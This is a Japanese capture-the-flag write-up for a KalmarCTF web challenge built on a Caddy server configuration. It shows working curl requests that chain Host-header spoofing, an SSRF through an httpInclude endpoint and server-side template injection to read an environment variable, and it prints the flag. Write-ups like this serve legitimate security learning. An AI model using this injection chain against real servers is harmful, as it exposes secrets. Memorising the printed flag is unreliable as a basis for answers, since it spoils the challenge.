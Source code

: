 # Ez ⛳ v3:web:146pts
To get the flag, you need: the mTLS cert, connecting from localhost, ... and break physics? Should be easy!  
Challenge note: the handout files contains `tls internal` while the hosted challenge mostly use real TLS.  
NOTE: Remote is working as intended! Even with the redirects.  
NOTE 2: Backup instance with `tls internal` (= broken TLS cert) `49.13.233.207`  

[https://caddy.chal-kalmarc.tf](https://caddy.chal-kalmarc.tf)  

[caddy-handout.zip](caddy-handout.zip)  

# Solution
URLとソースコードがもらえる。  
ソースの中の主要なファイルCaddyfileは以下の通りであった。  
```
{
        debug
        servers  {
                strict_sni_host insecure_off
        }
}

*.caddy.chal-kalmarc.tf {
        tls internal
        redir public.caddy.chal-kalmarc.tf
}

public.caddy.chal-kalmarc.tf {
        tls internal
        respond "PUBLIC LANDING PAGE. NO FUN HERE."
}

private.caddy.chal-kalmarc.tf {
        # Only admin with local mTLS cert can access
        tls internal {
                client_auth {
                        mode require_and_verify
                        trust_pool pki_root {
                                authority local
                        }
                }
        }

        # ... and you need to be on the server to get the flag
        route /flag {
                @denied1 not remote_ip 127.0.0.1
                respond @denied1 "No ..."

                # To be really really sure nobody gets the flag
                @denied2 `1 == 1`
                respond @denied2 "Would be too easy, right?"

                # Okay, you can have the flag:
                respond {$FLAG}
        }
        templates
        respond /cat     `{{ cat "HELLO" "WORLD" }}`
        respond /fetch/* `{{ httpInclude "/{http.request.orig_uri.path.1}" }}`
        respond /headers `{{ .Req.Header | mustToPrettyJson }}`
        respond /ip      `{{ .ClientIP }}`
        respond /whoami  `{http.auth.user.id}`
        respond "UNKNOWN ACTION"
}
```
CaddyなるWebサーバらしく、`private.caddy.chal-kalmarc.tf/flag`からのレスポンスでフラグが取得できるが、いくつかの制限があるようだ。  
初めに問題のURLにアクセスすると、`public.caddy.chal-kalmarc.tf`に飛ぼうとする。  
以下の制限が原因のようだ。  
```
*.caddy.chal-kalmarc.tf {
        tls internal
        redir public.caddy.chal-kalmarc.tf
}

public.caddy.chal-kalmarc.tf {
        tls internal
        respond "PUBLIC LANDING PAGE. NO FUN HERE."
}
```
`*`ですべてを`public`へ飛ばしている。  
何とかして`private`へリクエストを到達させたい。  
パスやヘッダの加工を試していると、`Host`ヘッダを`private`にすることで到達した(うまく証明書の制限も回避したようだ)。  
```bash
$ curl https://public.caddy.chal-kalmarc.tf/
PUBLIC LANDING PAGE. NO FUN HERE.
$ curl https://public.caddy.chal-kalmarc.tf/flag -H 'Host: private.caddy.chal-kalmarc.tf'
No ...
```
ただ、`/flag`は以下の条件によってさらに制限されている。  
```
private.caddy.chal-kalmarc.tf {
~~~
        # ... and you need to be on the server to get the flag
        route /flag {
                @denied1 not remote_ip 127.0.0.1
                respond @denied1 "No ..."

                # To be really really sure nobody gets the flag
                @denied2 `1 == 1`
                respond @denied2 "Would be too easy, right?"

                # Okay, you can have the flag:
                respond {$FLAG}
        }
~~~
}
```
`remote_ip`が`127.0.0.1`であり、かつ`1 == 1`ではないという意味不明な条件だ。  
ここで、値や関数がテンプレートに埋め込まれたいくつかの機能を利用できることを思い出す。  
```
        templates
        respond /cat     `{{ cat "HELLO" "WORLD" }}`
        respond /fetch/* `{{ httpInclude "/{http.request.orig_uri.path.1}" }}`
        respond /headers `{{ .Req.Header | mustToPrettyJson }}`
        respond /ip      `{{ .ClientIP }}`
        respond /whoami  `{http.auth.user.id}`
        respond "UNKNOWN ACTION"
```
`/fetch/*`があまりにも怪しいが、`remote_ip`の制限をSSRFで回避できないだろうか。  
```bash
$ curl https://public.caddy.chal-kalmarc.tf/fetch/flag -H 'Host: private.caddy.chal-kalmarc.tf'
Would be too easy, right?
```
`/flag`を`/fetch/`することで`remote_ip`の制限は回避できたが、`1 == 1`がどうやっても突破できない。  
あきらめて方針転換し、他にユーザが値を操作可能な機能を見ると、`/headers`なるリクエストのヘッダをJSONとして返すよくわからないものがある。  
ここで、ヘッダに`{{.ClientIP}}`のようなテンプレートと解釈できるものを設定し、`/fetch/*`で`/headers`を読み取るとどうなるだろうか。  
ヘッダ`Satoki`をつけて試す。  
```bash
$ curl https://public.caddy.chal-kalmarc.tf/fetch/headers -H 'Host: private.caddy.chal-kalmarc.tf' -H 'Satoki: {{.ClientIP}}'
{
  "Accept": [
    "*/*"
  ],
  "Accept-Encoding": [
    "identity"
  ],
  "Caddy-Templates-Include": [
    "1"
  ],
  "Satoki": [
    "172.70.108.142"
  ],
  "User-Agent": [
    "curl/7.81.0"
  ]
}
```
なんと`/headers`が返したものがテンプレートとして解釈された。  
これでSSTIが可能となったため、`1 == 1`を突破せずとも、ファイル読み込みや環境変数の取得でフラグが得られそうだ。  
[Caddyのドキュメント](https://caddyserver.com/docs/modules/http.handlers.templates)を探すと`{{env "VAR_NAME"}}`とすれば環境変数VAR_NAMEが取得できるようだ。  
しかし、実際に行ってみると`{{env "FLAG"}}`どころか`{{cat "FLAG"}}`すらできない。  
`cat`はもともとのテンプレートで使われているので、使えないはずがない。  
ここでチームメンバが`"`が悪さをしているのではないかと呟いていた。  
`"`無しに文字列を作る方法はないかと探すと、`{{.Req.Header}}`が使えることに気づく。  
`{{env (first (.Req.Header.Tsuji))}}`とし、ヘッダ`Tsuji: FLAG`を設定すれば`"`なしに文字列`FLAG`を作り、`env`に渡せる(`.Req.Header.Tsuji`は配列が帰ってくるため`first`で最初の要素を抜き出している)。  
以下のように行う。  
```bash
$ curl https://public.caddy.chal-kalmarc.tf/fetch/headers -H 'Host: private.caddy.chal-kalmarc.tf' -H 'Satoki: {{env (first (.Req.Header.Tsuji))}}' -H 'Tsuji: FLAG'
{
  "Accept": [
    "*/*"
  ],
  "Accept-Encoding": [
    "identity"
  ],
  "Caddy-Templates-Include": [
    "1"
  ],
  "Satoki": [
    "kalmar{4n0th3r_K4lmarCTF_An0Th3R_C4ddy_Ch4ll}"
  ],
  "Tsuji": [
    "FLAG"
  ],
  "User-Agent": [
    "curl/7.81.0"
  ]
}
```
flagが得られた。  

## kalmar{4n0th3r_K4lmarCTF_An0Th3R_C4ddy_Ch4ll}